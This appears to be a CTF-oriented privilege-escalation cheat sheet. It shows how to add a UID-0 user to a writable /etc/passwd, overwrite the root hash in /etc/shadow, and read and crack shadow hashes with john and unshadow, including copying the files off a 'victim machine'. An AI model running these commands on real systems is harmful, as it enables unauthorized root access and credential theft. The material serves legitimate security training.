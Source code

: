 # /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## Add /etc/passwd new root user

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format\
\
first we create a hash for our root user password:\
\
`openssl passwd evil`\
`echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

![](../../../.gitbook/assets/etc1.png)

## Change the /etc/shadow root hash

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

![](../../../.gitbook/assets/etc2.png)

## Hash cracking

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow` `head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` `john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`

{% hint style="info" %}
**`if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`**
{% endhint %}
